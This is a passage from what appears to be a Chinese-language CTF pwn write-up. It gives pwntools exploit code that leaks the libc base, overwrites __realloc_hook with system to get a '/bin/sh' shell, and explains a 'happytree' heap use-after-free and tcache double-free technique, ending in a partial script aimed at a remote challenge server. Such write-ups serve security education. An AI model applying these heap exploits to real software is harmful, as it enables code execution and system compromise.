 ```python

libc_base=u64(r.recvuntil("\x7f")[-6:]+p16(0))-libc.sym['putchar']
success("libc_base: "+hex(libc_base))

realloc_hook=libc_base+libc.sym["__realloc_hook"]
system=libc_base+libc.sym["system"]
one_gadget=libc_base+0x10a468

size=0x38

sen(0x4,0x19,0,0,1,'e'*0x100+p64(heap+0x9628)+p64(realloc_hook-size+0x6))
sen(0x4,0x19,0,0,1,'e'*size)
sen(0x4,0x19,0,0,1,'')
sen(0x4,0x19,0,0,1,'')

sen(size//0x8,0x20,0,0,1,p64(heap+0x9628)+"a"*(size-0x8))

rand_list[idx+0]=51
rand_list[idx+1]=0x785c8788
rand_list[idx+2]=0x1f3e66a2
rand_list[idx+3]=0x1a2dac75
rand_list[idx+4]=0x2779d0cc
rand_list[idx+5]=0x678d03df

payload=create(p64(system)[:6],size,size+1)
sen(0x4,size,0,0,1,"/bin/sh;"+payload[8:])

#gdb.attach(r)
sen(1,1,0,0,1,'')

r.interactive()


```
### happytree
程序主要实现了一个二叉排序树的结点加入和删除，其中每个结点的左子树中结点的值都小于它，右子树中所有结点的值都大于它，且没有重复的结点（每个结点的值`&0xff`就是`malloc`的堆块`size`），开始感觉删除那里当需要删除的结点左右都存在子结点的时候可能有漏洞可以利用，后来也没细想，因为发现了更简单的利用思路，可以构造一个只有左结点的单边树，然后将结点依次删除，填满`tcache`后，再删除一个使其进入`unsorted bin`，而每次删除的时候，存放结点信息的堆块也会跟着被删除，此时，在`unsorted bin`中的结点对应的存放信息的堆块就进入了`fastbin`，这个存放信息的堆块的`fd`自然是`0`，而这个`fd`的位置，就是之前存放结点对应值的位置，又因为存放信息的堆块的`bk`不会更改，会有数据残留，仍然是对应结点的堆块地址，且包括存放该结点左右子结点地址的位置也不会被覆盖，都存在数据残留，利用这几个数据残留就很容易达到`UAF`的目的。具体操作就是，从`tcache`末端申请回一个结点堆块及其对应存放信息的堆块，此时其对应存放信息的堆块的左节点位置就是在`unsorted bin`中的结点所对应的存放信息的堆块（在`fastbin`中），此时这个存放信息的堆块存放的结点的值为`0`（由于`0`是最小的值，因此之前要构建只有左结点的单边树，而不能是右节点），存放的对应结点位置就是在`unsorted bin`中的堆块地址，若是我们`show(0)`，自然就可以泄露出`libc`的基地址了，然后我们再申请一个小一些的`size`，就会从`unsorted bin`分割出一部分给用户，这样我们`0`这个值所对应的结点堆块地址和申请的小一些的`size`对应的结点堆块地址就指向了同一个地址，又因为这是在`libc-2.27(1.2)`下的，故可以直接`double free`进`tcache`中，也就可以任意写了。
```python
from pwn import *
context(os = "linux", arch = "amd64", log_level = "debug")

#io = process("./pwn")
io = remote("124.71.147.225", 9999)
elf = ELF("./pwn")
libc = ELF("./libc.so.6")

def insert(size, content = b'\n'):
	io.sendlineafter("cmd> ", b'1')
	io.sendlineafter("data: ", str(size))
	io.sendafter("content: ", content)

def delete(size):
	io.sendlineafter("cmd> ", b'2')
	io.sendlineafter("data: ", str(size))

```